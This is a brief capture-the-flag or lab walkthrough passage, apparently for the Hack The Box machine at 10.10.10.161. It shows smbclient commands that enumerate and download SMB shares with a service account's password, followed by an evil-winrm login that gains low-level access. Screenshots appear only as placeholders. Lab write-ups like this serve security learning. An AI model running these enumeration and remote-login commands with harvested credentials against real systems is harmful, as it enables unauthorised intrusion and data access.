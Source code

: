 
```
smbclient -L 10.10.10.161 -U 'svc-alfresco'
s3rvice
```

![[Pasted image 20231114155917.png]]

As you can looks that now we can see the smb share.

We are not able to login in adim or c or even ipc as we don't have access to it
![[Pasted image 20231114160256.png]]


```
smbclient \\\\10.10.10.161\\NETLOGON -U 'svc-alfresco'
```

It seems like we got a directory in this share
```
smbclient \\\\10.10.10.161\\SYSVOL -U 'svc-alfresco'
```
![[Pasted image 20231114160429.png]]
So let's download it and see if we can do something with it


```
prompt off
recurse on
ls
mget *
```

We are not able to download one file and got the hands on rest of the files 
![[Pasted image 20231114161502.png]]

![[Pasted image 20231114161842.png]]


![[Pasted image 20231114162018.png]]

Got the low level access
```
evil-winrm  -i 10.10.10.161 -u svc-alfresco -p 's3rvice'
```
![[Pasted image 20231114162247.png]]

